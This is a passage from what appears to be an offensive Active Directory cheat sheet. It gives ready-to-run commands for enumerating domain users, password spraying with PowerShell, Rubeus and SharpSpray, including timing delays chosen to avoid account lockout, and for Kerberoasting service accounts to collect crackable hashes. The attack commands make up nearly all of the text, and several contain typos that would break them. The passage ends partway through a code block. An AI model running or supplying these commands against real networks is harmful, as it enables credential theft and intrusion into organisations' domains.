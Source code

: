 # Get the full domain user list (Optional)
powershell Get-DomainUserList -Domain lab.com -RemoveDisabled -RemovePotentialLockouts | Out-File -Encoding ascii userlist.txt

# Password spray from a username and password list
powershell Invoke-DomainPasswordSpray -UserList userlist.txt -PasswordList passlist.txt -Domain lab.com -OutFile sprayed-creds.txt

# Auto spray a specific password on an auto-generated user list (very noisy)
powershell Invoke-DomainPasswordSpray -Password Summer2021
```
Rubeus brute-force password spraying a single password or using a password file
```
execute-assembbly C:\Rubeus.exe brute /password:Password123! /domain:lab.com /noticket /outfile:passes-sprayed.txt [/passwords:PASSWORDS_FILE>] [/user:USER | /users:USERS_FILE] [/creduser:DOMAIN\\USER & /credpassword:PASSWORD] [/dc:DOMAIN_CONTROLLER]  [/verbose] [/nowrap]
```
[SharpSpray](https://github.com/jnqpblc/SharpSpray) - .NET port of PowerSpray.ps1
```
# By default it will automatically generate a user list from the domain using LDAP
# Sleeps 30 minutes between each password cycle, delays 300 milliseconds between each password guess attempt
execute-assembly C:\SharpSpray.exe --Passwords Summer2021,Fall2021 --Sleep 30 --Delay 300
```

### Kerberoasting
PowerView kerberoasting (Outdated and still reliant on PowerShell)
```
# Get users with SPN set
powershell Get-DomainUesr -SPN

# Kerberoast all users
powershell Invoke-Kerberoast - OutputFormat hashcat | fl

# Kerberoast specific user
powershell Invoke-Kerberoast -Identity testaccount -Domain lab.com -OutputFormat hashcat | fl
```

Rubeus kerberoasting
```
# Kerberoast all users
execute-assembly C:\Rubeus.exe kerberoast /outfile:KerbHashes.txt /domain:lab.com
